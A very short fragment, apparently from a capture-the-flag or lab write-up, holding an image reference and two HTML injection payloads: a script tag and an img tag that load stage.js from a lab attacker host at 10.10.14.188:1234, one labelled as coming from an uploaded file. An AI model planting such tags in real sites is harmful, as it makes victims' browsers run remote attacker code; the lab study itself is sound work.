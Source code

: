 
<script src="http://10.10.14.188:1234/stage.js?payload_from_script_tag"></script>
<img src="http://10.10.14.188:1234/stage.js?payload_from_uploaded_file_img_tag" />


